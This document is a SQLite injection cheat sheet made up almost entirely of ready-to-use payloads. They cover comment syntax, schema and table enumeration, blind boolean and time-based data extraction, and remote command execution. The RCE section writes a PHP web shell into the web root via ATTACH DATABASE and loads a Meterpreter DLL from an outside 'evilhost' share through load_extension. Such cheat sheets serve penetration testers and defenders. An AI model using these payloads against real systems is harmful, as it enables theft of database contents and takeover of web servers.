 # SQLite Injection

## SQLite comments
```sql
--
/**/
```

## SQLite version
```sql
select sqlite_version();
```

## Integer/String based - Extract table name
```sql
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```
Use limit X+1 offset X, to extract all tables.

## Integer/String based - Extract column name
```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

For a clean output
```sql
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

## Boolean - Count number of tables
```sql
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
```

## Boolean - Enumerating table name
```sql
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
```

## Boolean - Extract info
```sql
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

## Time based
```sql
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
```

## Remote Command Execution using SQLite command - Attach Database
```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ('<?system($_GET['cmd']); ?>');--
```

## Remote Command Execution using SQLite command - Load_extension
```sql
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```
Note: By default this component is disabled

## Thanks to
[Injecting SQLite database based application - Manish Kishan Tanwar](https://www.exploit-db.com/docs/41397.pdf)
